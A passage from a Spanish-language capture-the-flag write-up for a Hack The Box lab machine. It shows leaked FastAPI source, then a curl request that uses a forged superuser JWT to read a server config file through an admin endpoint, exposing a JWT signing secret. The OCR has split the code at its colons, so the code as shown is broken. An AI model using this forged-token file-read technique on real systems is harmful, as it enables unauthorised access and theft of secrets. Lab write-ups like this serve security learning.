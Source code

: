 ```py
    )

    return get_swagger_ui_html(openapi_url="/openapi.json", title="docs")

@app.get("/openapi.json")
async def openapi(
    current_user
 User = Depends(deps.parse_token)
)

    return get_openapi(title = "FastAPI", version="0.1.0", routes=app.routes)

app.include_router(api_router, prefix=settings.API_V1_STR)
app.include_router(root_router)

def start()

    import uvicorn

    uvicorn.run(app, host="0.0.0.0", port=8001, log_level="debug")

if __name__ == "__main__"

    # Use this for debugging purposes only
    import uvicorn

    uvicorn.run(app, host="0.0.0.0", port=8001, log_level="debug")
```

Se puede ver que se está importando la librería ```app.core.config```. En python correspondería a la ruta ```/home/htb/uhc/app/core/config.py```

```null
curl -s -X POST http://10.10.11.161/api/v1/admin/file -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjk3ODEwODk4LCJpYXQiOjE2OTcxMTk2OTgsInN1YiI6IjEiLCJpc19zdXBlcnVzZXIiOnRydWUsImd1aWQiOiIzNmMyZTk0YS00MjcxLTQyNTktOTNiZi1jOTZhZDU5NDgyODQifQ.mU5_m_ktg4qJz5dKSx43MW3tpodKHjbMivcBXJsrdq0" -H "Content-Type: application/json" -d '{"file":"/home/htb/uhc/app/core/config.py"}' | jq  -r '.["file"]' | tr ':' '\n'
```

```py
from pydantic import AnyHttpUrl, BaseSettings, EmailStr, validator
from typing import List, Optional, Union

from enum import Enum


class Settings(BaseSettings)

    API_V1_STR
 str = "/api/v1"
    JWT_SECRET
 str = "SuperSecretSigningKey-HTB"
    ALGORITHM
 str = "HS256"

    # 60 minutes * 24 hours * 8 days = 8 days
    ACCESS_TOKEN_EXPIRE_MINUTES
 int = 60 * 24 * 8

    # BACKEND_CORS_ORIGINS is a JSON-formatted list of origins
    # e.g
 '["http
//localhost", "http
//localhost
```